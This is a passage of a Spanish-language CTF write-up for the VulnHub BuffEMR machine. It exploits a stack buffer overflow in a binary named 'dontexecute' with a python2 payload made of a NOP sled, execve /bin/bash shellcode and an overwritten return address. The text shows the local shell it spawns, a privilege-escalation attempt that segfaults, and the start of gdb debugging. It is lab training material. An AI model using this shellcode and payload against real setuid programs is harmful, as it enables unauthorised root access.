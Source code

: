 ## Ejecutar codigo malicioso

Me interesa la direccion *0xffffd1e0* ya que esta en el rango de los nops y como estamos en un little-endian hay que escribirlo volteado de a bytes (*e0 d1 ff ff*)

```bash
gef➤  r $(python2 -c 'print"\x41" * (512 - 100 - 33) + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\xe0\xd1\xff\xff" * 4')
Starting program: /home/oaknimrow/Desktop/oaknimrow/CTF/VulnHub/BuffEMR/web/content/buff/dontexecute $(python2 -c 'print"\x41" * (512 - 100 - 33) + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\xe0\xd1\xff\xff" * 4')
process 193232 is executing new program: /usr/bin/bash
[Detaching after fork from child process 193241]
[Detaching after fork from child process 193242]
[Detaching after fork from child process 193243]
[Detaching after fork from child process 193244]
[Detaching after fork from child process 193245]
[Detaching after fork from child process 193246]
[Detaching after fork from child process 193247]
bash: /.cargo/env: No such file or directory
┌──[oaknimrow@oak]─[/home/oaknimrow/Desktop/oaknimrow/CTF/VulnHub/BuffEMR/web/content/buff]
└──╼ $ 
```

Al ejecutar el binario vulnerable con el payload se crea una bash.

La maquina victima cuenta con python2 asi que el payload se puede cargar sin problemas.

```bash
buffemr@buffemr:/opt$ which python2
/usr/bin/python2
```

# PRIVILEGE ESCALATION

```bash
buffemr@buffemr:/$ /opt/dontexecute $(python2 -c 'print"\x41" * (512 - 100 - 33) + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\xe0\xd1\xff\xff"')
Segmentation fault (core dumped)
```

## Ajuste nuevo IP

Como no funciono, debugueo el binario con *gdb* en la maquina victima

```bash
buffemr@buffemr:/opt$ gdb ./dontexecute
(gdb) r $(python2 -c 'print"\x41" * (512 - 100 - 33) + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\xe0\xd1\xff\xff" * 4')
Starting program: /opt/dontexecute $(python2 -c 'print"\x41" * (512 - 100 - 33) + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\xe0\xd1\xff\xff" * 4')

Program received signal SIGSEGV, Segmentation fault.
0xffffd27f in ?? ()

(gdb) x/2000wx $esp

0xffffd54e:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd55e:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd56e:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd57e:	0x90909090	0x90909090	0x90909090	0x90909090
```